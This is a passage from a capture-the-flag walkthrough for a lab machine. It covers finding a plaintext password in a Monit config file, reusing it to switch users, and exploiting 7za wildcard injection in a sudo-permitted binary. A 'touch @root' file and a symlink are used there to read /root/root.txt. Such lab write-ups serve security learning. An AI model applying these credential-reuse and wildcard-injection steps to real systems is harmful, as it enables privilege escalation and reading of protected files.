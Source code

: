 Found a Monit configuration file:

```bash
cat /home/dash/.monitrc
...
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd
...
```

Used the credentials to switch to `xander`:

```bash
su xander
Password: 3nc0d3d_pa$$w0rd
```

---

## Privilege Escalation

### Sudo Enumeration

Checked sudo privileges as `xander`:

```bash
sudo -l
```

**Results:**

```
User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

### Binary Analysis

Analyzed the `usage_management` binary:

```bash
strings /usr/bin/usage_management
...
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

The binary used `7za` with a wildcard (`*`) to create a ZIP archive, vulnerable to wildcard injection (reference: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)).

Exploited the vulnerability:

```bash
cd /var/www/html
touch @root
ln -s /root/root.txt root
sudo /usr/bin/usage_management
```
